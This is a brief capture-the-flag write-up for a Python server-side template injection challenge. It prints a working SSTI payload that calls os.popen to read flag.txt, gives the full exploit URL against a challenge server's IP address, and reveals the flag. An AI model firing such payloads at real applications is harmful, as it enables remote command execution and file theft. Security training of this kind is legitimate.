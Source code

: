 ## Solve:

- [ ] Reference to SSTI (Server Side Template Injection)
  - The language used to program the application is `python`
  - A good resource is [PaylodAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)
  ```python
  {{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}
  ```
  
  - Final paylload is as follows: <br>
  http://213.177.18.70:8005/?c={{request.application.__globals__.__builtins__.__import__(%27os%27).popen(%27cat%20/flag.txt%27).read()}}

<br>

## Flag:
**`flag{Server_Side_Template_Injection_is_4_cool_kids_only}`**
